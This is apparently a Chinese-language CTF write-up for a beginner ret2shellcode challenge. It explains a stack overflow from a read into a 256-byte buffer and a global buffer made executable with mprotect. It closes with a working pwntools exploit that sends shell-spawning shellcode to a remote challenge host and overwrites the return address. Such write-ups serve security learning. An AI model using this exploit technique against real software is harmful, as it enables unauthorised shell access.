





- 一道ret2shellcode入门题目，附件有两个文件（C文件、对应编译文件）：
    
    首先就是定义了一个256字节的全局变量buff数组，三个setbuf都是初始的一些操作，通过mprotect函数将stdout变量所在的内存的前0x1000（第一页）设置为7权限，也就是可读可写可执行，局部定义一个256字节的buf数组，memset清空buf数组中的内容，通过read函数可以读取0x110（272字节）数据到buf数组中存储，很明显存在栈溢出，然后通过strcpy将buf的256字节数据复制buff中

    不难看出该程序除了一个溢出点，没有看到其他东西，比如system、/bin/sh等可拿shell的东西，所以这里的思路就是可以先往buf中写入编写好的shellcode，通过strcpy将buf中的数据复制到buff的时候自然就将shellcode复制过去了，然后通过栈溢出将返回地址位置覆盖为buff的起始地址，又因为mprotect将stdout变量所在的内存的第一页设置为了可读可写可执行，所以程序就会开始执行buff中的数据（shellcode），这样就可以拿到shell

- gdb调试找到buff的初始地址：
    

- gdb调试确定溢出范围：
    
    

- EXP：
    ```python
    from pwn import *

    context(log_level = "debug", arch = 'amd64')
    p = remote('node5.anna.nssctf.cn', 28880)
    # p = process("./shellcode")
    buff_addr = 0x4040A0
    shellcode = asm(shellcraft.sh())  # 生成shellcode
    payload = shellcode.ljust(264, b'a') + p64(buff_addr)
    p.sendline(payload)
    p.interactive()
    ```
    